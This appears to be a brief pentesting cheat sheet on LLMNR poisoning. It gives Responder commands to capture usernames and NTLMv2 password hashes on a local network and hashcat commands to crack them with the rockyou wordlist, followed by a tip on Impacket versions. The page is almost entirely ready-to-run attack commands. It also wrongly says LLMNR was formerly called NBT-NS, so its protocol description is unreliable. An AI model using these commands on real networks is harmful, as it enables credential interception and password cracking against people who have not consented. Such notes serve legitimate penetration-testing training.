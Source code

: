 
+ Link Local Multicast Name Resolution
+ Previously known as NBT-NS
+ Just like DNS(Used when DNS Fails)

1. Run Responder
```sh
$ responder -I <interface> -rdwv
# wait for an event to occur
# client details including IP,username and password hash will be captured by responder when an event is occured.
# event in sense when the server fails to resolve a address request.
```

2. We got the NTLMv2 password hash now, lets crack it with Hashcat
```sh
$ hashcat -m 5600 <hashfile.txt> <passwordlist:rockyou.txt> -O
# 5600 - netNTLMv2
# wait for the password to be cracked
```



Impacket versions > 0.9.19 are unstable and causing issues for students and pentesters alike. Try purging impacket completely and downloading 0.9.19 from here: [https://github.com/SecureAuthCorp/impacket/releases](https://github.com/SecureAuthCorp/impacket/releases)














